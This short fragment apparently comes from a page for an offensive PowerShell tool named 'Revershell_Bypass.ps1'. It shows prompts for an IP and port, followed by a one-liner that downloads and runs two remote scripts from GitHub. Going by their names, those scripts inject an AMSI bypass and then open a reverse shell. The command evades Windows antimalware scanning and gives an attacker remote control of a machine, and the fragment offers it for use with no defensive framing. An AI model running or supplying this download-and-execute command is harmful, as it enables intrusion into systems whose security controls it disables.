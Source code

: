 Revershell_Bypass.ps1

Enter IP:

Enter Port:

Bypass Powershell (RSA)
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/MrHarshvardhan/Powershell_Revershell/main/AMSI_Injection.ps1");IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/MrHarshvardhan/Powershell_Revershell/main/AMSI_Revershell.ps1")
